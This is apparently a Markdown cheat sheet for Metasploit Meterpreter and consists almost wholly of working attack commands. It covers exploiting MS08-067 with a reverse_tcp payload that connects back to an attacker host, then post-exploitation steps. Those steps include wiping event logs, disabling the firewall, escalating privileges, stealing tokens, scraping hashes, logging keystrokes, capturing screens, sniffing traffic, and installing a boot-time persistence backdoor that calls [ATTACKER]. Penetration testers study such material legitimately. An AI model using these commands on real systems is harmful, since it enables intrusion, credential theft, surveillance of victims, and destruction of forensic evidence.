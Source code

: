 Metasploit Meterpreter
======================

#### Usage

	$ msfconsole    # starts metasploit
	$ msfupdate     # updates metasploit
	run + two tabs  #lists all meterpreter scripts

#### Getting Meterpreter Shell

netapi exploit
works almost all of the time with XP

	msf> use exploit/windows/smb/ms08_067_netapi 
	msf> set RHOST [TARGET]
	msf> set PAYLOAD windows/meterpreter/reverse_tcp    
		# victim will connect back to the console to establish session
	msf> set LHOST [LOCALHOST]
	msf> exploit


#### Post Exploits

	clearev                     # wipes all system and security logs
	execute -f cmd.exe -c -H    # creates cmd session and channelize; will keep prompt hidden
	getdesktop                  # shows current desktop sessions
	getuid
	getpid
	getsystem -h                # privilege escalation, 0 will attempt every technique, 1 and 2 usually work
	idletime
	ipconfig
	list_tokens -u              # lists user tokens by name
	load incognito
	migrate 1908                # migrates into process 1908
	netsh firewall show opmode  # shows if firewall is up or not
	netsh firewall set opmode mode=DISABLE	# turns firewall off
	ps
	rev2self                    # reverts back to the user you exploited as
	route
	run checkvm   
	run get_env
	run get_application_list
	run scraper                 # access hashes > cd .msf4/logs/scripts/scraper/
	run winenum                 # access dump  > cd .msf4/logs/scripts/winenum/
	steal_token 3280            # process to steal a token from
	sysinfo
	tasklist                    # to view a list of processes


#### Keystroke Logger

	getuid        # should say SYSTEM
	getdesktop    # should say Session 0...\Default
	ps            # find explorer.exe (in this case 1744)
	migrate 1744
	getpid        # verify that you are running as 1744
	getdesktop    # should now say Session 0\WinSta0\Default
	keyscan_start
	keyscan_dump  # will print the text to the screen
	keyscan_stop


#### Persistence

	run persistence -h    # shows options
	run persistence -A -L c:\\ -X -i 10 -p 443 -r [ATTACKER]
	
	# -A when the persistence backdoor connects back there will be something waiting to connect
	# -L location of payload in target host 
	# c:\\ the location parameter
	# -X automatically start when the system boots up
	# -i number of seconds to wait before each connection attempt 
	# 10 the parameter of time to wait
	# -p 443 port that metasploit is listening
	# -r ip address that the attacker machine is running on

After running take note of resource file and its location to delete it afterwards

After connection:

	background                                        # keeps process running in background
	sessions -l                                       # lists the backdoor sessions
	resource /root/.msf4/logs/persistence[path].rc    # removes the backdoor vb script

#### Screen Capture

	ps            # find process under username you want to exploit
	migrate 3708 
	use espia
	screengrab

#### Sniffer

	load sniffer
	sniffer_interfaces       # look for interface that shows usable:True
	sniffer_start 1 1024     # sniffing with adapter 1 and packet buffer of 1024
	sniffer_stats 1          # looks at traffic 
	sniffer_dump 1 dump.pcap
	sniffer_stop 1
	wireshark dump.pcap

